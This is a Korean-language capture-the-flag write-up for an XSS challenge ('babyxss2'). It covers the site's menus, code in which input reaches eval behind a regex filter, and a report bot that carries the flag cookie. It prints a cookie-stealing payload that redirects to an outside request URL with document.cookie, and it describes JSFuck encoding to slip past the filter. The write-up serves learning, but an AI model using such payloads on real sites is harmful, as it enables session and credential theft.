 <h1>1. 웹페이지 접속</h1>
 

![image](./image/babyxss2.png)
 

대상 웹사이트에 접속하였을 때의 메인화면이다. Baby's music, Saved, Go to Report 세가지 메뉴가 존재한다.

 

먼저 Baby's music 메뉴에 접근해보았을 때 메뉴는 다음과 같다.

 

대상 웹사이트 메인
Baby's music (1)
 

입력할 수 있는 입력창과 확인 버튼 그리고 save 버튼이 존재하였으며 일단 임의의 문자열 입력 후 확인 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Baby's music (2)
 

nope! 이라는 메시지가 출력되었다.

 

대상 웹사이트 메인
Baby's music (3)
 

임의의 숫자를 입력 후 확인 버튼 클릭 시 입력한 숫자가 포함된 문자열이 출력되는 것을 확인하였으며 save 버튼 클릭 시 id를 발급받을 수 있었다.

 

다음은 Saved 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Saved (1)
 

?id= 라는 문자열이 출력되었다. ?가 붙어있는 것을 보고 파라미터인 것 같다는 생각이 들어 url에 파라미터를 입력해보았다.

 

대상 웹사이트 메인
Saved (2)
 

id 파라미터에 방금 발급받았던 id 값을 입력하였더니 사용자가 입력한 값이 포함되어 저장된 내용이 출력되었다.

 

다음은 Go to Report 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Go to Report (1)
 

입력창과 제출 버튼이 있어 임의의 문자열 입력 후 제출 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Go to Report (2)
 

Reported! 메시지가 출력되었는데 어떤 기능이 실행되는지는 알 수 없었다.

 

코드 분석
 

대상 웹사이트 메인
코드 분석 (1)
 

cookies 변수에 FLAG 가 저장되어있는 것을 알 수 있다.

 

대상 웹사이트 메인
코드 분석 (2)
 

이 코드를 통해 Go to Report 메뉴의 기능을 확인할 수 있었다. cookies 변수에 저장된 값을 이용하여 쿠키를 세팅하며 요청 패킷의 url 파라미터를 통해 입력받은 url로 서버에서 접근하게 된다는 것을 알 수 있다. 프록시를 통해 확인한 url 파라미터 값은 다음과 같다.

 

대상 웹사이트 메인
코드 분석 (3)
 

 

다음으로 주목할 부분은 Baby's music 메뉴의 소스코드이다.

 

대상 웹사이트 메인
코드 분석 (4)
 

입력 받은 값을 정규 표현식을 통해 필터링하는 부분이 존재하며 필터링되지 않는다면 eval 함수의 인자값에 사용자가 입력한 값이 포함되는 것을 확인하였다. 이를 통해 악의적인 스크립트를 삽입할 수 있을 것이라고 생각하였다.

 

공격 시나리오
 

웹사이트의 메뉴를 확인하고 코드를 분석한 결과 다음과 같은 시나리오를 생각해보았다.

 

1. Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

2. Go to Report 메뉴에서 saved?id='save_id' 를 입력하여 서버 측에서 악의적인 스크립트가 삽입된 페이지에 접근하도록 하여 쿠키를 탈취한다.

 

 

공격 실행
 

1) Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

Baby's music 메뉴에서 다음과 같은 스크립트를 삽입하고자 한다.

 


',location.href="request_url/"+document.cookie,'
 

스크립트의 앞부분에 ', 과 뒷부분에는 ,' 가 존재하는 이유는 Baby's music 에서 입력한 값은 eval 함수의 인자에 삽입되기 때문이다.

 


eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
 

 

입력한 값이 ${age} 에 삽입되게 되는데 악의적인 스크립트가 삽입된 결과는 다음과 같다.

 


eval(`msg.innerHTML='This is recommended album for ',location.href="request_url/"+document.cookie,'-year-old.'`);
 

 

이렇게 삽입되면 eval 함수를 통해 삽입된 악의적인 스크립트가 실행된다.

 

하지만 알파벳은 필터링되어 스크립트가 삽입될 수 없으므로 다른 방법으로 삽입해야한다.

 

대상 웹사이트 메인
공격 실행 (1)
 

삽입할 스크립트를 JSFuck 기법으로 인코딩하여 삽입한다.

 

먼저 임의의 숫자를 입력 후 save 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (2)
 

프록시 도구에서 스크립트를 삽입한다.

 

대상 웹사이트 메인
공격 실행 (3)
 

발급받은 id 값을 확인한다.

대상 웹사이트 메인
공격 실행 (4)
 

Go to Report 메뉴로 이동하여 saved?id='발급받은 id' 를 입력 후 제출 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (5)
 

 

쿠키 탈취에 성공하여 flag를 확인하였다.

 

대상 웹사이트 메인
공격 실행 (6)
